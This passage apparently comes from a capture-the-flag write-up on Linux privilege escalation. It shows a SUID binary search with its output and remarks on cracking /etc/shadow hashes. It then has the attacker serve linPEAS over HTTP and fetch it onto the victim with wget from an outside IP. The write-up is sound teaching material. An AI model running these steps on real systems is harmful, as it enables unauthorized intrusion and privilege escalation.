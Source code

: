 Here we see all the users on the system, but besides root, which is the administrative user on Linux systems, we only have a single other real user, which is n1ss3f4r.
We are not allowed to watch the /etc/shadow file, which on newer Linux OS is the file that actually holds the hashed user passwords, which we could have tried to crack, had we been able to read them.

```bash
n1ss3f4r@acaeda685ce2:~$ find / -type f -perm -04000 -ls 2>/dev/null
  5954417     48 -rwsr-xr-x   1 root     root        47480 Feb 21  2022 /usr/bin/mount
  5954523     36 -rwsr-xr-x   1 root     root        35192 Feb 21  2022 /usr/bin/umount
  5954422     40 -rwsr-xr-x   1 root     root        40496 Nov 24  2022 /usr/bin/newgrp
  5954433     60 -rwsr-xr-x   1 root     root        59976 Nov 24  2022 /usr/bin/passwd
  5954297     44 -rwsr-xr-x   1 root     root        44808 Nov 24  2022 /usr/bin/chsh
  5954497     56 -rwsr-xr-x   1 root     root        55672 Feb 21  2022 /usr/bin/su
  5954291     72 -rwsr-xr-x   1 root     root        72712 Nov 24  2022 /usr/bin/chfn
  5954359     72 -rwsr-xr-x   1 root     root        72072 Nov 24  2022 /usr/bin/gpasswd
  6454237    228 -rwsr-xr-x   1 root     root       232416 Apr  3  2023 /usr/bin/sudo
  6454317    332 -rwsr-xr-x   1 root     root       338536 Aug 24 13:40 /usr/lib/openssh/ssh-keysign
  6454287     36 -rwsr-xr--   1 root     messagebus    35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
n1ss3f4r@acaeda685ce2:~$
```

The intention of this command is to look for [SUID bits](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit), which can be used in certain situations to escalate privileges (PrivEsc). One great site for finding such tricks is [GTFOBINS](https://gtfobins.github.io/).
Unfortunately this is also not a possible path forward, seeing as only the root user has these bits set.

We therefore upload an enumeration script from our attacking machine to the victim by opening a webserver from our Kali machine

```bash
┌──(haaukins㉿kali)-[~]
└─$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

and on the victim we make a wget request to download linPeas

```bash
n1ss3f4r@acaeda685ce2:~$ wget http://77.138.111.4:1337/linpeas.sh
--2023-12-20 21:25:25--  http://77.138.111.4:1337/linpeas.sh
Connecting to 77.138.111.4:1337... connected.
HTTP request sent, awaiting response... 200 OK
Length: 835306 (816K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                    100%[=================================================>] 815.73K  --.-KB/s    in 0.007s

2023-12-20 21:25:25 (109 MB/s) - ‘linpeas.sh’ saved [835306/835306]

n1ss3f4r@acaeda685ce2:~$ ls
2023-Q3-regnskab.xlsm  flag_user.txt  linpeas.sh  loader.vbs  payloads  todo.txt
n1ss3f4r@acaeda685ce2:~$ chmod +x linpeas.sh
n1ss3f4r@acaeda685ce2:~$
```
